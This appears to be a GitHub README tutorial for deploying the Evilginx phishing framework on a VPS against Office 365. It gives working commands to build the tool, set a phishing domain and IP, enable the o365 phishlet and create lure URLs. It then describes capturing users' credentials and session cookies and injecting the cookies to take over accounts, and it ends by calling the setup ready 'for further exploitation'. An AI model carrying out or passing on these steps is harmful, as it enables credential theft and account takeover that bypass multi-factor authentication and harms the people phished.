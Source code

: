 # ⚙️ Step 1: Prepare the VPS Environment

Before installing Evilginx, we need to ensure the VPS has all necessary tools and dependencies installed. This includes utilities like `wget` and the Go programming language.
```bash
sudo apt update 
sudo apt install wget -y
```
---

## 🔧 Installing Required Tools

First, update your VPS package list and install essential tools for the setup:

- `wget` for downloading files  
- `git` and `make` for building Evilginx from source
```bash
wget https://golang.org/dl/go1.17.linux-amd64.tar.gz
```
---

## 🏗️ Installing Go (Golang)

To build Evilginx, Go must be installed on the system. The installation involves:

- Downloading the Go binary archive from the official website  
- Extracting it to `/usr/local/`  
- Configuring the system `PATH` to include Go binaries

This setup allows you to compile Evilginx without errors.
```bash
sudo tar -zxvf go1.17.linux-amd64.tar.gz -C /usr/local/
```
```bash
echo "export PATH=/usr/local/go/bin:${PATH}" | sudo tee /etc/profile.d/go.sh 
source /etc/profile.d/go.sh
```
---

# 🕸️ Step 2: Clone and Build Evilginx

With the environment ready, clone the Evilginx source code from its GitHub repository and compile it.

---

## 📥 Cloning the Repository

Use `git` to clone the Evilginx2 repository to your VPS:

- Repository URL: `https://github.com/BakkerJan/evilginx2.git`
```bash
sudo apt-get -y install git make 
git clone https://github.com/BakkerJan/evilginx2.git 
cd evilginx2 
make
```
---

## ⚙️ Building the Project

Navigate into the cloned directory and use `make` to compile the source code into a working binary.

---

# 🚀 Step 3: Install and Launch Evilginx

Once built, launch the Evilginx service to begin configuration.
```bash 
sudo evilginx
```
---

# 🌐 Step 4: Configure Domain and IP

Set your phishing domain and the VPS IP address within Evilginx. For example:

- Domain: `evilginxtest.shop`  
- IP: `52.144.47.242`

Apply a blacklist rule to block unauthorized requests for better security.
```bash
config domain <yourdomain> 
config ip <yourIP> 
blacklist unauth
```
---

# 🏷️ Step 5: Enable the Office 365 Phishlet

Configure the Office 365 phishlet to use your custom domain and enable it.
```bash
phishlets hostname o365 <yourdomain> 
phishlets enable o365
```
---

## ⚠️ SSL/TLS Setup Notes

If you encounter SSL/TLS errors when enabling the phishlet:

- This usually means DNS propagation is incomplete  
- Evilginx attempts to obtain an SSL certificate via Let’s Encrypt automatically  
- Retry the enable command periodically until it succeeds

---

# 🎣 Step 6: Create and Configure the Phishing Lure

Create a lure linked to the Office 365 phishlet and set a redirect URL users will be sent to after submitting credentials.
```bash
lures create o365 
lures edit 0 redirect_url https://portal.office.com 
lures get-url 0
```
---

# 👀 Step 7: Phishing Experience and Session Capture

When a user visits the lure URL, they see a page identical to Microsoft’s login screen.

![Microsoft Login Page](https://github.com/user-attachments/assets/dcf20d05-6fe2-40ff-97de-4fdee2eb6d06)

After submitting credentials, Evilginx captures them transparently.

![Credentials Captured](https://github.com/user-attachments/assets/b8fb9489-1cb8-4d6c-a3fc-38e4b8ee562f)

---

# 🗝️ Step 8: Extract and Use Session Cookies

Once authentication completes, Evilginx captures valid session cookies.

View active sessions with the appropriate command and extract session tokens.

![Session Cookies](https://github.com/user-attachments/assets/8f293e48-b323-4167-8566-2102eec0da22)

---

## 🔓 Using Captured Sessions

By injecting these cookies into a browser visiting the legitimate site, you gain authenticated access

---

# 🎉 Conclusion

Your Evilginx phishing setup is now fully operational, ready to capture credentials and session cookies for further exploitation.
